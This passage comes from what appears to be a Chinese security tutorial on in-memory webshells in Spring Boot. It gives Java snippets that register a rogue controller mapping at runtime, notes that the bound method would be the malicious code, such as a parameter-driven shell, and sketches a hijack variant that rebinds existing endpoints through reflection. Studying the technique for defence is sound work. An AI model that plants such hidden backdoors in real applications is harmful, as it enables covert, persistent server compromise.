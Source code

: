 2.获取到这个类的test 方法

```
RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
InjectToController injectToController = new InjectToController("aaa");
mappingHandlerMapping.registerMapping(info, injectToController, method2);
```

创建一个inject 类，并注册映射：将RequestMappingInfo、InjectToController实例和方法test注册到RequestMappingHandlerMapping中。


```
@RequestMapping("/test1")
@ResponseBody
public String test1() {
    try {
        new InjectToController();
    }catch (Exception e){
        e.printStackTrace();
    }
    return "ok";
}
```

这时，我们访问test1接口就能成功执行对应功能，将方法成功注册，其中InjectToController 类中的test()就是我们要执行的恶意代码，比如接受参数的shell


这是再次查看mapping，就会发现多了个接口good，绑定的是恶意类的恶意方法

![1730618715544](image/【18】内存马专栏/1730618715544.png)

隐形马（劫持马）：

大体原理和上面的相同不同的是，会遍历springboot的mappings，找到要改的接口，通过反射修改属性，将接口功能重新绑定到指定的函数上。

简单总结下框架类型的内存马是与框架的功能、组件、底层类的调用紧密相关不同的框架里内存马具体实现调用的类不同
